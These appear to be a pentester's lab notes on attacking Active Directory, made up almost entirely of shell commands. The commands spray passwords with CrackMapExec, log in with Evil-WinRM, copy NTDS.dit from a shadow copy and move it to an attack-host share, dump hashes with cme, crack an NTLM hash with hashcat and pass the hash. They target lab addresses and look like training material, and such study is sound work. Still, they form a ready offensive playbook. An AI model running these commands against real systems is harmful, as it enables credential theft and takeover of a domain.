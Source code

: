 ![[Pasted image 20240723145903.png]]
## Dictionary Attacks against AD accounts using CrackMapExec
###### [Username Anarchy](https://github.com/urbanadventurer/username-anarchy)
```shell
./username-anarchy -i /home/ltnbob/names.txt 
```
#### Launching the Attack with CrackMapExec
```shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```
## Capturing NTDS.dit
#### Connecting to a DC with Evil-WinRM
```shell
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```
#### Checking Local Group Membership
```shell
net localgroup
```
#### Checking User Account Privileges including Domain
```shell
net user bwilliamson
```
#### Creating Shadow Copy of C:
```shell
vssadmin CREATE SHADOW /For=C:
```
#### Copying NTDS.dit from the VSS
```shell
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
#### Transferring NTDS.dit to Attack Host
```shell
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```
#### A Faster Method: Using cme to Capture NTDS.dit
```shell
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
#### Cracking a Single Hash with Hashcat
```shell
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```
#### Pass-the-Hash with Evil-WinRM Example
```shell
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
